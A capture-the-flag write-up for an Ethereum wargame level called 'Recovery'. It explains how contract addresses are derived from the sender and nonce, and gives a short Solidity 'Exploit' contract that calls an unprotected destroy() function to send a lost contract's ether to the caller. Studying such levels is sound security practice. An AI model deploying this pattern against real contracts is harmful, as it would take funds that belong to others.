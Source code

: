 Level 17: Recovery

Objective:

Recover Ether from a lost contract.

Concept:

Ethereum's contract creation is deterministic.

Explanation:
There is a specific way how addresses are calculated. 
So the address of the contract is the last 20bytes (keccak(RLP(sender address, nonce)))
We can find the address using this encoding which is very technical
But another easy way to find the ether is by going in etherscan and searching up the contract address
There we can click internal transactions and see two contracts created by taking the address of the latest contract which is the contract address we needed


Solution:
```
contract Exploit{
    Token simpleToken;
    constructor(address _target){
        simpleToken=Token(_target);
    }
    function Hack()public{
        simpleToken.destroy(msg.sender);
    }
}
```
put the address of the contract you got in while deploying Exploit and call Hack() then which will selfdestruct and send the ether to msg.seder which is us.

Key Takeaways:

Contract addresses can be predicted by learning how they are created.
